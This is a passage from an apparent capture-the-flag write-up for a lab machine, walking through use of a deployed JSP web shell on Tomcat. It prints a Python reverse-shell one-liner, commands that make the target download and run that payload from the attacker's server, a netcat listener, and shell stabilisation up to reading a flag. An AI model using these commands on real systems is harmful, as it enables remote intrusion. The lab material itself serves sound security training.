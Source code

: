 With the application deployed, we can use the web shell to run commands by either visiting `http://10.10.61.142:8080/webshell/index.jsp` or by using `curl` again.

```console
$ curl -s 'http://10.10.61.142:8080/webshell/index.jsp?cmd=id'
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>


<pre>uid=1002(tomcat) gid=1002(tomcat) groups=1002(tomcat)</br></pre>
```

Now we can use this to obtain a shell by first spawning a web server to serve our reverse shell payload.

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'                                   

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{:  .wrap }

Downloading our reverse shell payload.

```console
$ curl -s 'http://10.10.61.142:8080/webshell/index.jsp?cmd=curl+10.11.72.22+-o+/tmp/rev.sh'
```

Running it, we obtain a shell as the `tomcat` user.

```console
$ curl -s 'http://10.10.61.142:8080/webshell/index.jsp?cmd=bash+/tmp/rev.sh'
```

After stabilizing our shell, we can read the first flag at `/opt/tomcat/flag1.txt`.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.61.142] 34722
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
tomcat@Backtrack:/$ export TERM=xterm
export TERM=xterm
tomcat@Backtrack:/$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

tomcat@Backtrack:/$ id
uid=1002(tomcat) gid=1002(tomcat) groups=1002(tomcat)
tomcat@Backtrack:/$ wc -c /opt/tomcat/flag1.txt
38 /opt/tomcat/flag1.txt
```

